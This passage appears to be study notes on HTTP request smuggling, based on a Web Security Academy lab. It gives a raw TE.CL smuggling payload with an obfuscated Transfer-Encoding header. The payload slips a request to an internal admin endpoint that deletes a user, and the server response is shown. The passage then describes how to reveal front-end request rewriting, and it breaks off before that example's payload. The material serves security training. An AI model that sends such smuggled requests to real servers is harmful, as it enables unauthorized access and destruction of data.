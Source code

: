 POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-length: 12
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
89
`GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0
---
POST / HTTP/1.1
Host: ac7e1fbc1e20b9b3c08c808e003b0009.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
tRANSFER-ENCODING: chunked
3
x=y
0
---
##### response:
HTTP/1.1 `302  Found
`Location: /admin
Set-Cookie: session=6IHZjFoYxFKCA4mgDwlampand0zgaVr8; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
---
#### Revealing front-end request rewriting
 If you can find which new values are appended to the request you could be able to bypass protections and access hidden information/endpoints.
For discovering how is the proxy rewriting the request you need to find a POST parameter that the back-end will reflect it's value on the response. Then, use this parameter the last one and use an exploit
There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:
1.   Find a POST request that reflects the value of a request parameter into the 
    application's response.
2.   Shuffle the parameters so that the reflected parameter appears last in the message 
     body.
3.   Smuggle this request to the back-end server, followed directly by a normal request 
     whose rewritten form you want to reveal.
##### For example:
Suppose an application has a login function that reflects the value of the `email` parameter:
>`POST /login HTTP/1.1 
>`Host: vulnerable-website.com 
>`Content-Type: application/x-www-form-urlencoded 
>`Content-Length: 28 
>`email=wiener@normal-user.net`
This results in a response containing the following:
>`<input id="email" value="wiener@normal-user.net" type="text">`
Here you can use the following request smuggling attack to reveal the rewriting that is performed by the front-end server: